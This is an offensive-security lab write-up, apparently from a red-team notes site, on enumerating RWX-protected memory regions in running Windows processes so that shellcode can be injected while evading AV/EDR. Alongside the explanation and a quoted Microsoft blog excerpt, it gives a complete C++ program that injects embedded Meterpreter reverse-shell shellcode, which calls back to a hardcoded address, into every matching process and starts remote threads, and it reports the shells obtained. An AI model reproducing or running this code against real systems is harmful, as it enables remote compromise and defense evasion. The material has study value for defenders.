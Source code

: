 ```yaml
---
description: 'Code Injection, Defense Evasion'
---
```


# Enumerating RWX Protected Memory Regions for Code Injection

Injecting and executing shellcode from a local or target process requires memory where the shellcode could be written to, read from and executed. 

Some shellcode injection techniques allocate `PAGE_EXECUTE_READWRITE` memory block, fill it with shellcode and create a thread pointing to that shellcode. It's not a very common thing for bening applications to do and this is something AV/EDR solutions may punish you for if they catch you doing it.

Some techniques allocate `PAGE_READWRITE` first, write shellcode to the allocated memory, protect it with `PAGE_EXECUTE_READ` and then execute it, which means that at no point in time there's an RWX memory block in the target process. It is a bit stealthier and may help one sneak past AVs/EDRs.

What both techniques have in common is that they still need to **allocate** and **protect** memory \(RW -&gt; RX or RWX\).  Having said that, it is possible to brute-force/enumerate currently running target processes on the compromised system - search through their allocated memory blocks and check if any those are protected with RWX, so we can attempt to write/read/execute them, which may help evade some optics.

## Overview

In this lab I will write a simple program that will:

* Loop through all the processes on the system
* Query each process's memory information
* Loop through all allocated memory blocks in each process
* Check for any memory block that is protected with RWX && is private && is committed
* If the above condition is met
  * Print out address of the memory block
  * Write shellcode to that memory block
* Create a remote thread that points to the shellcode written in the above step

Running the [Code](finding-all-rwx-protected-memory-regions.md#code) with breakpoint set on line 31 will be hit if the conditions on line 27 are met. The conditions we are checking for are: 

```cpp
mbi.AllocationProtect == PAGE_EXECUTE_READWRITE 
&& mbi.State == MEM_COMMIT 
&& mbi.Type == MEM_PRIVATE
```

Once the breakpoint is hit, we can see that the memory region 27c727a0000 is RX protected, is private and commited and now contains our shellcode \(starting with bytes fc 48 83 e4\) :

![](../../.gitbook/assets/image%20%28263%29.png)

If you noticed and were wondering...

> ### Why were we able to WRITE to an RX memory region?
>
> When you call `Write­Process­Memory` and tell it to write to memory that is read-only, the `Write­Process­Memory` succeeds. How can that be?
>
> Because `Write­Process­Memory` tries really hard to please you.
>
> As I noted some time ago, [the primary audience for functions like `Create­Remote­Thread` and `Write­Process­Memory` is debuggers](https://blogs.msdn.microsoft.com/oldnewthing/20120808-00/?p=6913). And when debuggers try to patch memory, it’s often for things like patching in a breakpoint instruction or doing some [edit-and-continue](https://docs.microsoft.com/en-us/visualstudio/debugger/edit-and-continue?view=vs-2015) magic. So the `Write­Process­Memory` tries really hard to get those bytes written. If the page is read-only, `Write­Process­Memory` temporarily changes the permission to read-write, updates the memory, and then restores the original permission.
>
> “No need to thank me, just trying to help.”
>
> There is a race condition if the target process happens to be manipulating the page protection at the same time that `Write­Process­Memory` is. But that’s okay, because the intended audience is debuggers, and debuggers will freeze the target process before trying to edit its memory.
>
> There is no security hole here, because the way the `Write­Process­Memory` function changes the page protection is basically `Virtual­Protect­Ex`, so it will succeed only if you already could have modified the protections yourself anyway. If you didn’t have permission to change the protections, then `Write­Process­Memory`‘s attempt to change the protections would fail too.
>
> Source: [https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415](https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415)

## Demo

Let's build the program and run it - we can see we got some meterpreter shells.

![](../../.gitbook/assets/memoryenumerationshell.gif)

{% hint style="warning" %}
The below provided code is a dirty POC and may crash certain processes and the Visual Studio banner appearing in the above GIF proves it - the shellcode got injected into Visual Studio \(devenv.exe\) that crashed and restarted itself.
{% endhint %}

## Code

{% tabs %}
{% tab title="rwx-hunter.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

int main()
{
	MEMORY_BASIC_INFORMATION mbi = {};
	LPVOID offset = 0;
	HANDLE process = NULL;
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	DWORD bytesWritten = 0;
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	Process32First(snapshot, &processEntry);
	while (Process32Next(snapshot, &processEntry))
	{
		process = OpenProcess(MAXIMUM_ALLOWED, false, processEntry.th32ProcessID);
		if (process)
		{
			std::wcout << processEntry.szExeFile << "\n";
			while (VirtualQueryEx(process, offset, &mbi, sizeof(mbi)))
			{
				offset = (LPVOID)((DWORD_PTR)mbi.BaseAddress + mbi.RegionSize);
				if (mbi.AllocationProtect == PAGE_EXECUTE_READWRITE && mbi.State == MEM_COMMIT && mbi.Type == MEM_PRIVATE)
				{
					std::cout << "\tRWX: 0x" << std::hex << mbi.BaseAddress << "\n";
					WriteProcessMemory(process, mbi.BaseAddress, shellcode, sizeof(shellcode), NULL);
					CreateRemoteThread(process, NULL, NULL, (LPTHREAD_START_ROUTINE)mbi.BaseAddress, NULL, NULL, NULL);
				}
			}
			offset = 0;
		}
		CloseHandle(process);
	}

	return 0;
}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex" %}

